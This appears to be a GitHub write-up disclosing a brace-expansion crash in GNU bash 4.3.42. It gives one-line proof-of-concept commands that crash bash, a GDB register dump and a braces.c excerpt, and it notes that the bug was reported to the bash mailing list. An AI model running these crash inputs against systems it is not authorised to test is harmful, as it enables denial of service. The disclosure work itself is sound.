# Bash-Integer-Overflow

A integer overflow lives in the bash { } braces which affect the latest version:

$ $(which bash) --version
GNU bash, version 4.3.42(1)-release (x86_64-unknown-linux-gnu)
Copyright (C) 2013 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>

This is free software; you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.


You can trigger the overflow by running this which results in a segmentation fault.


[@ ~]$ /usr/local/bin/bash -c "echo x86_64; echo {1..9223372036854775805};"
x86_64
Segmentation fault
[@ ~]$ /usr/local/bin/bash -c "echo x86; echo {1..2147483648};"
x86
Segmentation Fault
[@ ~]$

GDB:
(gdb) r -c "echo {1..9223372036854775805};"
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /usr/local/bin/bash -c "echo {1..9223372036854775805};"

Program received signal SIGSEGV, Segmentation fault.
0x00007ffff771b4f8 in __memset_avx2 () from /usr/lib/libc.so.6
(gdb) i r
rax            0xdfdfdfdf	3755991007
rbx            0x1	1
rcx            0xffffffffffff81f8	-32264
rdx            0xfffffffffffffff0	-16
rsi            0x7001f8	7340536
rdi            0x708000	7372800
rbp            0x1	0x1
rsp            0x7fffffffe388	0x7fffffffe388
r8             0x1	1
r9             0x70763b	7370299
r10            0x0	0
r11            0x1999999999999999	1844674407370955161
r12            0x0	0
r13            0x0	0
r14            0x700208	7340552
r15            0xfffffffffffffff0	-16
rip            0x7ffff771b4f8	0x7ffff771b4f8 <__memset_avx2+392>
eflags         0x10287	[ CF PF SF IF RF ]
cs             0x33	51
ss             0x2b	43
ds             0x0	0
es             0x0	0
fs             0x0	0
gs             0x0	0
(gdb)

The rax register is interesting as it's stuffed with 0xdfdfdfdf, however I don't think that it's possible to gain control of the cpu registers and this seems to just be a denial of service at the most.

Hilarious source code of braces.c that does multiple checks for an Integer overflow:
  /* Check that end-start will not overflow INTMAX_MIN, INTMAX_MAX.  The +3
     and -2, not strictly necessary, are there because of the way the number
     of elements and value passed to strvec_create() are calculated below. */
  if (SUBOVERFLOW (end, start, INTMAX_MIN+3, INTMAX_MAX-2))
    return ((char **)NULL);

  prevn = sh_imaxabs (end - start);
  /* Need to check this way in case INT_MAX == INTMAX_MAX */
  if (INT_MAX == INTMAX_MAX && (ADDOVERFLOW (prevn, 2, INT_MIN, INT_MAX)))
    return ((char **)NULL);
  /* Make sure the assignment to nelem below doesn't end up <= 0 due to
     intmax_t overflow */
  else if (ADDOVERFLOW ((prevn/sh_imaxabs(incr)), 1, INTMAX_MIN, INTMAX_MAX))
    return ((char **)NULL);

  /* XXX - TOFIX: potentially allocating a lot of extra memory if
     imaxabs(incr) != 1 */
  /* Instead of a simple nelem = prevn + 1, something like:
        nelem = (prevn / imaxabs(incr)) + 1;
     would work */
  nelem = (prevn / sh_imaxabs(incr)) + 1;
  if (nelem > INT_MAX - 2 || nelem < INT_MIN)           /* Don't overflow int */
        return ((char **)NULL);
  result = strvec_mcreate (nelem + 1);
  if (result == 0)
    {
      internal_error (_("brace expansion: failed to allocate memory for %d elements"), nelem);
      return ((char **)NULL);
    }

I've notified the bash mailing list so I'll just make this public.
